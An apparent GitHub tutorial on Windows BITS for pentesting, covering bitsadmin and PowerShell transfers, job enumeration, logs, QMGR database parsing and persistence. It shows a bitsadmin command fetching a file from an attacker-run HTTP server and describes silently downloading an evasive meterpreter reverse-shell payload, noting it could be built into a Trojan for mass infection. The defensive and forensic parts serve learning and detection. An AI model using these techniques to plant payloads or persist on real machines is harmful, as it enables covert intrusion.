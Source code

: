 ### Introduction to BITS: 

BITS stands for Background Intelligent Transfer Service and is a widely used service for downloading files from or to HTTP web servers and SMB file sharing. BITS is sufficiently autonomous to reduce the costs as much as possible to be as optimized as possible for the user or the programmer because yes BITS can also be useful in programming, BITS is programmable in C/C++ and can be called in .NET all that thanks to COM.
BITS has a CLI version called BitsAdmin and commands included in the powershell. BITS can be used for administration with logging systems from actions like /transfer or SANP protocols (notification protocols) for example: `SetNotifyFlag`. In pentest, BITS is very used for EOAP (Exfiltration over Alternative Protocol).
Use of bitsadmin and analysis of traffics:

```powershell
bitsadmin /transfer howtohack http://192.168.1.45:8000/ak.txt "C:\Users\hth\Documents\ak.txt"
```

- DISPLAY**: job name
- FILE**: number of files
- BYTES**: size of the "c hack" file
- PRIORITY**: corresponds to the order of download
- STATE**: Transferred, state of the job.

you can also use it with the PowerShell modules: `BitsTransfer`
```powershell
Import-Module BitsTransfer
```

BITS supports asynchronous transfer by default but you can specify via the `-Asychronous` argument, for the file validation you have to use `Complete-BitsTransfer`.
Downloading a meterpreter reverse shell silently: 

![image](https://user-images.githubusercontent.com/75935486/152225631-6de1bd82-5dc8-4ac3-b861-a73634d4fe45.png)

start the HTTP server and download the evasive payload via BITS asynchronously. In the context of mass contamination, we can make the download automatic in C or C++ in a third party Trojan, but in the educational context we stay in simple things.


#### BITSAdmin enumeration: 

```powershell
# listed jobs
bitsadmin /list
# get more info on a job
bitsadmin /info 482FCAF0-74BF-469B-8929-5CCD028C9499 /verbose
# manage the current jobs
bitsadmin /monitor
# only one job to manage
bitsadmin /monitor 482FCAF0-74BF-469B-8929-5CCD028C9499
# complete info (Notify, Proxy, GUID...) on all active jobs:
bitsadmin /info
```

BITS logs : `C:\Windows\System32\winevt\Logs\Microsoft-Windows-Bits-Client%4Operational`

![image](https://user-images.githubusercontent.com/75935486/152225800-497abaf1-1545-48b0-903e-9d87c51242f6.png)


#### BITS Enumeration from SC queries and from the QMGR & ESE db: 

QMGR stands for Querie Manager, it records every activity of every BITS Job in a database but it's encrypted, you have to use hex editor or other database editor16 to hope to dump something.
here what we are interested in is QMGR.db because it's where the BITS Job info is logged

![image](https://user-images.githubusercontent.com/75935486/152225890-df0b4a93-7476-4513-bd75-b470dc0752a3.png)

```json
> python BitsParser.py -i qmgr.db
Processing file qmgr.db
{
    "JobType": "download",
    "JobPriority": "normal",
    "JobState": "suspended",
    "JobId": "b733e5e1-12ad-463e-a125-ade26cc1fab6",
    "JobName": "SpeechModelDownloadJob",
    "OwnerSID": "S-1-5-20",
    "Owner": "NT AUTHORITY\NETWORK SERVICE",
    "CreationTime": "2021-01-25T11:52:05Z",
    "ModifiedTime": "2021-01-25T12:45:21Z"
}
```

#### Pesistence with BITS : 

Raising the download priority. `/priority high`

Windows BITS compromises:
- https://www.secureworks.com/blog/malware-lingers-with-bits

C++/C/.NET development with BITS integration: 
- https://docs.microsoft.com/en-us/windows/win32/bits/using-bits

